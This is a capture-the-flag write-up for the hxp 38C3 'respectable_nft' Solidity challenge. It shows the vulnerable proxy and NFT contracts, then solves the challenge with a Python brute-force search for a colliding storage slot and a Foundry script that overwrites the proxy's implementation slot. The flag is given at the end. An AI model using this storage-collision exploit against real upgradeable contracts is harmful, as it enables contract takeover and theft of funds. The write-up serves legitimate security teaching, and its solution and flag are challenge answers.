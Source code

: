 ```yaml
---
title: Blockchain - respectable_nft
description: 2024 | hxp 38C3 CTF | MSC
tags:
    - smart contract
    - solidity
    - storage layout
    - brute force
---
```


## Description

My favorite TikTok influencer told me about a great NFT project that is guaranteed to not be a scam. It even has this cool feature where you can name your token :^)

??? note "Setup.sol"

    ```js
    //SPDX-License-Identifier: Unlicense
    pragma solidity 0.8.20;

    import "./UpgradeableProxy.sol";
    import "./CryptoFlags.sol";

    contract Setup {
        CryptoFlags public cryptoFlags;

        constructor() payable {
            UpgradeableProxy proxy = new UpgradeableProxy();
            CryptoFlags impl = new CryptoFlags();
            proxy.upgradeTo(address(impl));
            cryptoFlags = CryptoFlags(address(proxy));
        }

        function isSolved() public view returns (bool) {
            return cryptoFlags.isSolved();
        }
    }
    ```

??? note "UpgradeableProxy.sol"

    ```js
    //SPDX-License-Identifier: Unlicense
    pragma solidity 0.8.20;

    contract UpgradeableProxy {
        // keccak256("owner_storage");
        bytes32 public constant OWNER_STORAGE = 0x6ec82d6c1818e9fe1ca828d3577e9b2dadd8d4720dd58701606af804c069cfcb;
        // keccak256("implementation_storage");
        bytes32 public constant IMPLEMENTATION_STORAGE = 0xb6753470eb6d4b1c922b6fc73d6f139c74e8cf70d68951794272d43bed766bd6;

        struct AddressSlot {
            address value;
        }

        function getAddressSlot(bytes32 slot) internal pure returns (AddressSlot storage r) {
            assembly {
                r.slot := slot
            }
        }

        constructor() {
            AddressSlot storage owner = getAddressSlot(OWNER_STORAGE);
            owner.value = msg.sender;
        }

        function upgradeTo(address implementation) external {
            require(msg.sender == getAddressSlot(OWNER_STORAGE).value, "Only owner can upgrade");
            getAddressSlot(IMPLEMENTATION_STORAGE).value = implementation;
        }

        function _delegate(address implementation) internal {
            assembly {
                // Copy msg.data. We take full control of memory in this inline assembly
                // block because it will not return to Solidity code. We overwrite the
                // Solidity scratch pad at memory position 0.
                calldatacopy(0, 0, calldatasize())

                // Call the implementation.
                // out and outsize are 0 because we don't know the size yet.
                let result := delegatecall(gas(), implementation, 0, calldatasize(), 0, 0)

                // Copy the returned data.
                returndatacopy(0, 0, returndatasize())

                switch result
                // delegatecall returns 0 on error.
                case 0 {
                    revert(0, returndatasize())
                }
                default {
                    return(0, returndatasize())
                }
            }
        }

        fallback() external payable {
            _delegate(getAddressSlot(IMPLEMENTATION_STORAGE).value);
        }
    }
    ```

??? note "CryptoFlags.sol"

    ```js
    //SPDX-License-Identifier: Unlicense
    pragma solidity 0.8.20;

    import "./ERC721_flattened.sol";

    contract CryptoFlags is ERC721 {
        mapping(uint256 => string) public FlagNames;
        constructor()
            ERC721("CryptoFlags", "CTF")
        {
        }

        function _beforeTokenTransfer(
            address from,
            address to,
            uint256 tokenId
        ) internal override virtual {
            require(from == address(0), "no flag sharing pls :^)");
            to; tokenId;
        }

        function setFlagName(uint256 id, string memory name) external {
            require(ownerOf(id) == msg.sender, "Only owner can name the flag");
            require(bytes(FlagNames[id]).length == 0, "that flag already has a name");
            FlagNames[id] = name;
        }

        function claimFlag(uint256 id) external {
            require(id <= 100_000_000, "Only the first 100_000_000 ids allowed");
            _mint(msg.sender, id);
        }

        function isSolved() external pure returns (bool) {
            return false;
        }
    }
    ```

## Solution

- The CryptoFlags is using a proxy, to make `isSolved()` return true, we have to update the value stored in the implementation slot, since the current logic contract will always return false.
- There are two possible ways to upgrade the contract, both of which require modifying specific slots in an unauthorized manner:
    - Directly modify the `IMPLEMENTATION_STORAGE` slot
    - Modify the `OWNER_STORAGE` slot, then call `upgradeTo()` to modify the `IMPLEMENTATION_STORAGE` slot
- Since mapping `FlagNames` occupies slot 6, through the `setFlagName()` function in the CryptoFlags contract, we can modify the storage slot at `keccak(abi.encode(id, 6))` or after `keccak(uint256(keccak(abi.encode(id, 6))))`, depending on the length of the string.

    ```js
    function setFlagName(uint256 id, string memory name) external {
        require(ownerOf(id) == msg.sender, "Only owner can name the flag");
        require(bytes(FlagNames[id]).length == 0, "that flag already has a name");
        FlagNames[id] = name;
    }

    function claimFlag(uint256 id) external {
        require(id <= 100_000_000, "Only the first 100_000_000 ids allowed");
        _mint(msg.sender, id);
    }
    ```

- If the target slot is at `keccak(abi.encode(id, 6))`, we can not modify it because `bytes(FlagNames[id]).length` is not zero, and it is impossible to find such a collision. But it is possible that the target slot is close to `keccak(uint256(keccak(abi.encode(id, 6))))`. Luckily, CryptoFlags limits the maximum value of `id`, we can traverse within this range.

    ```py
    from web3 import Web3
    from tqdm import tqdm

    owner_slot = int("6ec82d6c1818e9fe1ca828d3577e9b2dadd8d4720dd58701606af804c069cfcb", 16)
    impl_slot = int("b6753470eb6d4b1c922b6fc73d6f139c74e8cf70d68951794272d43bed766bd6", 16)

    for i in tqdm(range(100_000_001)):
        h = Web3.solidity_keccak(['uint256', 'uint256'], [i, 6])
        slot = int(Web3.solidity_keccak(['uint256'], [int(h.hex(), 16)]).hex(), 16)
        d = owner_slot - slot
        # the slot where `name` stored should not be too far from the target slot
        # to avoid reaching the block gas limit
        if d >= 0 and d <= 10000:
            print(i, h.hex(), hex(slot), d)
        d = impl_slot - slot
        if d >= 0 and d <= 10000:
            print(i, h.hex(), hex(slot), d)

    # Result: 56488061 fd873ebcc46cb76d491c36d05ef9b7b40d72903b955f8c3cc3bfceab0b7eccb7 0xb6753470eb6d4b1c922b6fc73d6f139c74e8cf70d68951794272d43bed766b49 141
    ```

- The result shows that there is one slot that is only 141 slots away from the `IMPLEMENTATION_STORAGE` slot. Thus, we can directly modify it and solve the challenge <3

??? note "Solve.s.sol"

    ```js
    // SPDX-License-Identifier: UNLICENSED
    pragma solidity ^0.8.13;

    import {Script, console} from "forge-std/Script.sol";
    import "src/Setup.sol";

    contract Solved {
        function isSolved() external pure returns (bool) {
            return true;
        }
    }

    contract SolveScript is Script {
        function run() public virtual {
            Setup setup = Setup(vm.envAddress("SETUP"));
            CryptoFlags cryptoFlags = setup.cryptoFlags();
            uint256 id = 56488061;
            vm.startBroadcast(vm.envUint("PRIV"));
            cryptoFlags.claimFlag(id);
            cryptoFlags.setFlagName(id, string(abi.encodePacked(
                new bytes(141 * 32),
                abi.encode(address(new Solved()))
            )));
            vm.stopBroadcast();

            require(setup.isSolved(), "did not solve :'(");
        }
    }
    ```

### Flag

> hxp{n3v3r_7ru57_pr3c0mpu73d_v4lu35}
